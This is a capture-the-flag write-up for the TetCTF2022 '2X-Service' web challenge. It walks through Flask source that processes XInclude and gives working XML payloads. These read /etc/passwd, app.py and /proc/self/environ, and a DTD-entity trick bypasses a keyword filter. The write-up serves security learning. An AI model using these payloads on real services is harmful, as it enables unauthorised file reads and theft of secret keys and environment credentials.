

# TetCTF2022 - 2X-Service Writeup
This is a web challenge, we are greeted with a form that takes 2 inputs. the first seems to want an XPATH, and the second wants some arbitrary XML.

We can view the [source](https://drive.google.com/file/d/14Dxlqqvij9ttMIq2uEVzjzez0v4iPDd6/view?usp=sharing) by navigating to `/source`.

## Reviewing Source Code
The most important piece of code from this codebase is the following, this method handles our input form request.
```py
@socketio.on('message')
def handle_message(xpath, xml):
	if len(xpath) != 0 and len(xml) != 0 and "text" not in xml.lower():
		try:
			res = ''
			root = ElementTree.fromstring(xml.strip())
			ElementInclude.include(root)
			for elem in root.findall(xpath):
				if elem.text != "":
					res += elem.text + ", "
			emit('result', res[:-2])
		except Exception as e:
			emit('result', 'Nani?')
	else:
		emit('result', 'Nani?')
```
From what it seems, python will parse our xml, and then return a message corresponding to the value we select with our XPATH input, we can prove this with the following PoC.

**XPATH**
```plaintext
person
```

**XML**
```xml
<root>
<person>
pog
</person>
</root>
```



The main issue here, is the `ElementInclude.include(root)` line, this processes XInclude elements, and if we recreate this locally, we can get LFI via the following payload (I have disabled the "text" WAF)
```xml
<root>
<x xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="/etc/passwd"/>
</x>
</root>
```

## Bypassing the WAF
Here there is a very simplistic WAF implemented, in that the given XML content cannot contain the string "text", this can be bypassed by creating our own resources and concatenating strings.

Here we specify two resources, splitting up "text" into two parts.
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE resources [
  <!ENTITY t "te">
  <!ENTITY tt "xt">
]>
```

We can then include these in the parse attribute of our `x` element:
```xml
<root>
<x xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="&t;&tt;" href="/etc/passwd"/>
</x>
</root>
```

## Getting The Flag
We can then use this to read app.py on the remote server with the following payload:
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE resources [
  <!ENTITY t "te">
  <!ENTITY tt "xt">
]>

<root>
<x xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="&t;&tt;" href="./app.py"/>
</x>
</root>
```

We are after the flask `SECRET_KEY`, however when we read the remote `app.py`, we see the following:
```py
app.config['SECRET_KEY'] = os.environ.get('KEY')
```

To read the environmental variables of the current process, we can read `/proc/self/environ`, and we get the following output (payload given too):

**XPATH**
```xml
x
```

**XML**
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE resources [
  <!ENTITY t "te">
  <!ENTITY tt "xt">
]>

<root>
<x xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="&t;&tt;" href="/proc/self/environ"/>
</x>
</root>
```

**Output**
```bash
SHELL=/bin/bash
[...SNIP...]
FLAG=TetCTF{Just_Warm_y0u_uP_:P__}
```
FLAG: `TetCTF{Just_Warm_y0u_uP_:P__}`